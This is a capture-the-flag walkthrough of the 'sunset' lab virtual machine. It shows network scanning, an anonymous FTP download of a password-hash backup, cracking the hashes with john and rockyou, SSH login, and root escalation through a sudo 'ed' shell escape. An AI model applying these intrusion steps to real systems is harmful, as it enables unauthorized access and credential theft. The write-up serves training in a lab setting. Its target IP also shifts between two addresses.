Performing an **ARP (Address Resolution Protocol) scan** on the local network
```
sudo arp-scan -l
```

and we got the following output of the above command

```bash
192.168.110.2	50:28:4a:4d:64:8f	(Unknown)
192.168.110.49	08:00:27:ab:93:c4	(Unknown)
192.168.110.58	82:b5:aa:74:3f:a6	(Unknown: locally administered)
192.168.110.103	4a:45:2b:a2:b3:dc	(Unknown: locally administered)
```
- The MAC address beginning with `08:00:27` is associated with VirtualBox, indicating that the corresponding sunset machine (`192.168.110.49`) is running as a virtual instance.

Performing a **NMAP (Network Mapper) scan** on the target ip `192.168.110.49` which is associated with the mac address  `08:00:27:ab:93:c4`
```
nmap -A 192.168.110.49
```

We got the scan report

```bash
Nmap scan report for 192.168.110.49
Host is up (0.0018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.110.49:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
MAC Address: 08:00:27:AB:93:C4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.84 ms 192.168.110.49

```
- We can see, “Anonymous FTP log in allowed” and we can see a backup file. We can log in through anonymous and cat the backup file.

- In our operating system, we need to open a preferred directory for downloading files via FTP.
```
ftp 192.168.1.153
ls
get backup
```
password: **anonymous** 
```bash
229 Entering extended passive mode (|||60151|).
125 Data connection already open. Transfer starting.
100% |****************************************************************************************|  1062        1.12 MiB/s    00:00 ETA
226 Transfer complete.
```
- We have received the backup file; let’s open the backup file with the command “cat backup”.

```
cat backup 
```

after reading the file we got the result as:
```bash
CREDENTIALS:                                                                                                                                                                                                       
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/   
```
- Now that we have the sunset hash file, create a text file by copying the hash file content. 
- Use the command `nano backup` (or your preferred name) and paste the content into it. 
- We got the hash files of the sunset now we can call `john` to crack the hash file using the **rockyou.txt**

```
john -wordlist=/usr/share/wordlists/rockyou.txt backup
```

```bash
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
==cheer14==          ==(sunset)==     
1g 0:00:00:01 DONE (2025-06-27 01:03) 0.7142g/s 10971p/s 10971c/s 10971C/s goodman..stewart1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- We have obtained the login password for the sunset.
- we can log in through **ssh** and log in using. **_username:_** _sunset_ **_password:_** _cheer14,_ we found using john. now we want to escalate our privilege
```
ssh sunset@192.168.1.153
ls
cat user.txt
```

```bash
5b5b8e9b01ef27a1cc0a2d5fa87d7190
```
**_We got our first flag_**

Next, we will determine which file has sudo permissions, and our investigation indicates that “ed” is included in the sudoers list.

```
sudo ed
! /bin/sh 
whoami
cd /root
ls 
cat flag.txt
```

```bash
25d7ce0ee3cbf71efbac61f85d0c14fe
```
**_And we got our second flag too!_**

**Completed it!**
